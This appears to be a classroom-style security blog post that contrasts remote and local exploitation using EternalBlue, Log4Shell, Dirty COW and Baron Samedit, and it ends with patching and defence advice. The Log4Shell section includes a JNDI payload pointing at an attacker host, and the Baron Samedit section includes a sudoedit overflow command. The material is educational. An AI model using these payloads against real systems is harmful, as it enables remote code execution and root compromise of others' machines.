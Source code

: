 ```yaml
---
title: Unpacking Exploits - Remote vs. Local Vulnerabilities
date: 2025-05-04
author: Bunleap Sorn
description: Diving into the mechanics of notorious remote and local exploitation examples like EternalBlue, Log4Shell, Dirty COW, and Baron Samedit, as learned in class.
tags: ["Ethical Hacking", "Cybersecurity", "Classroom Learning", "Exploitation", "Remote Exploitation", "Local Exploitation", "EternalBlue", "Log4Shell", "DirtyCOW", "BaronSamedit", "CVE", "Vulnerability"]
---
```


Hello, cybersecurity learners! As we progress through the intricacies of ethical hacking, a fundamental distinction we've been exploring is between **remote exploitation** and **local exploitation**. While both aim to gain unauthorized access or control, they differ significantly in *how* an attacker initiates the attack and the initial access they require. Understanding these differences is crucial for both offense and defense.

Let's break down some prominent examples we've studied in class.

### Remote Exploitation: Attacking from Afar

Remote exploitation occurs when an attacker can compromise a system over a network without having any prior access or authenticated session on the target. The attacker sends specially crafted data across the network to trigger a vulnerability, often leading to remote code execution (RCE).

#### 1. EternalBlue (CVE-2017-0144)

* **Description:** This is a critical vulnerability in Microsoft's Server Message Block (SMBv1) protocol that allows remote code execution via specially crafted packets. It was famously exploited by the WannaCry ransomware and NotPetya attacks.
* **Exploitation Scenario:**
    * **Step 1:** The attacker sends malicious SMB packets to a vulnerable Windows system (e.g., Windows 7, Server 2008) over the network. This typically occurs over Port 445.
    * **Step 2:** The exploit abuses a buffer overflow in SMBv1 to execute arbitrary code, enabling lateral movement or ransomware deployment.
* **Impact:** Full system compromise without authentication. The attacker gains SYSTEM-level control. Example: WannaCry spread globally in 2017.

![EternalBlue](https://i.imgur.com/1mHahgd.png)

#### 2. Log4Shell (CVE-2021-44228)

* **Description:** A zero-day vulnerability in Apache Log4j 2.x that allows remote code execution via JNDI lookups in logged user-controlled inputs (e.g., HTTP headers, URLs).
* **Exploitation Scenario:**
    * **Step 1:** An attacker injects a crafted payload (like `${jndi:ldap://attacker.com/malicious-java-code}`) into a vulnerable application's log field (e.g., User-Agent header, HTTP headers, forms, or user inputs).
    * **Step 2:** The vulnerable server's Log4j library processes this input, which initiates an LDAP request back to the attacker-controlled server. The server then downloads a malicious Java class, and executes it, leading to remote code execution (RCE).
* ]**Impact:** Full server compromise. Example: Mass scanning for unpatched systems led to cryptojacking and botnet infections.

![Log4Shell](https://i.imgur.com/bMFPP9w.png)

### Local Exploitation: Privilege Escalation on a Compromised System

Local exploitation occurs when an attacker already has some level of access to a system (e.g., a low-privilege user account) and then exploits a vulnerability to gain higher privileges (e.g., root or administrator). It's typically the second stage of an attack, following an initial remote compromise or direct user access.

#### 1. Dirty COW (CVE-2016-5195)

* **Description:** A Linux kernel race condition in the copy-on-write (COW) mechanism, allowing local users to escalate privileges by writing to read-only memory mappings.
    * **Copy-on-Write (COW):** Linux uses COW as a memory-saving trick. If a file is shared between processes, it's marked as "read-only." When a process tries to modify it, Linux creates a private copy.
* **Exploitation Scenario:**
    * **Step 1:** The attacker first gains low-privilege access (e.g., via phishing or a compromised application).
    * **Step 2:** The attacker runs an exploit (e.g., `dirtyc0w.c`) that triggers a race condition between `madvise()` and `write()` syscalls. This confusion in the COW mechanism allows the attacker to overwrite normally read-only files (like `/etc/passwd` or SUID binaries) without making a copy].
* **Impact:** Root access. Example: Exploited in the wild to modify system binaries, allowing the attacker to add a new root user or escalate to root privileges.

![DirtyCOW](https://i.imgur.com/kQk37BN.png)

#### 2. Baron Samedit (CVE-2021-3156)

* **Description:** A heap-based buffer overflow in `sudo` (versions 1.8.2-1.9.5p1) that allows local privilege escalation via malformed command-line arguments.
* **Exploitation Scenario:**
    * **Step 1:** An attacker with shell access runs a specially crafted command (e.g., `sudoedit -s '\' $(perl -e 'print "A"x65536')`).
    * **Step 2:** The overflow corrupts heap memory, enabling control of execution flow to gain root privileges.
* **Impact:** Root access. Example: Qualys demonstrated exploits on Ubuntu, Debian, and Fedora.

![BaronSamedit](https://i.imgur.com/Mq9Vyw7.png)

### Key Takeaways

Understanding these different types of exploits is foundational in cybersecurity. Remote exploits are often the initial breach, while local exploits are crucial for privilege escalation once inside.

* **Patching is Non-Negotiable:** As seen with EternalBlue and Log4Shell, timely patching can prevent widespread remote compromises.
* **Defense in Depth:** Even if an attacker gains initial low-level access, robust local security measures and patching of privilege escalation vulnerabilities (like Dirty COW and Baron Samedit) can prevent full system control.
* **Secure Coding and Configuration:** These vulnerabilities highlight the importance of secure coding practices (e.g., avoiding buffer overflows) and proper configuration of services and permissions.

Each of these examples represents a significant lesson in the ongoing battle between attackers and defenders, constantly pushing us to learn, adapt, and build more resilient systems.